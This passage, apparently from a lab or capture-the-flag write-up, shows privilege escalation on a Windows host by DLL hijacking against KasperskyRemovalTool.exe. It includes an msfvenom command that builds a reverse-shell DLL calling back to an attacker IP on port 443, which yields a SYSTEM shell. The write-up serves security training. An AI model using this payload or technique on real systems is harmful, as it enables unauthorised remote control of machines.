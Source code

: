 Running icacls.exe shows that BUILTIN\Users:(RX) have Read and Execute permissions over the binary. Besides running the .exe we do not have much options.

Instead of running the binary directly, let's examine it in detail. To do this, we will transfer the file to a Windows host and analyze it using **ProcMon**.

Antivirus removal tools often execute with high privileges. If we can successfully exploit this executable, we are likely to gain an administrative shell.

![Permissions](/images/trusted/perms20.png)

I attempted to use **Evil-WinRM's** download function to transfer the binary, but unfortunately, it didn't work.

Instead, let's use **Impacket's smbserver**. Note that we need to include the **–smb2support** flag since SMB1 is disabled on the system.

![SMB Server](/images/trusted/smbserver21.png)

Proceed to copy the file to the created share:

![Copy File](/images/trusted/copy23.png)

The file should appear in the directory where we setup the share.

<br>

### DLL Hijacking

When manually reviewing the KasperskyRemovalTool.exe from a windows machine using ProcMon, we find that wherever the program is being executed from certain DLL Files are being called. In this case "KasperskyRemovalToolENG.dll, KasperskyRemovalToolENU.dll". For these specific DLLs, the result is **"NAME NOT FOUND"**, indicating they are not present by default.

This behavior suggests a potential vulnerability, as we can exploit this by creating and placing malicious DLLs in the same directory, leading to a possible DLL hijacking attack.

![DLL Hijacking](/images/trusted/dll-hijacking24.png)

Since the KasperskyRemovalTool was likely installed as an admin, it's being executed as SYSTEM and therefore would give us the highest privileges, if we managed to spawn a reverse shell.

For this, we can use msfvenom to generate a reverse shell containing the .dll:

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.8.2.184 LPORT=443 -f dll > KasperskyRemovalToolENU.dll
```

Spawn a Simple HTTP Server, serving our malicious file, and download it to the victim:

![Transfer](/images/trusted/transfer25.png)

Now that we have the malicious DLL on the target, execute KasperskyRemovalTool.exe and wait for the session to open on our netcat listener at port 443.

![Reverse Shell](/images/trusted/revshell27.png)
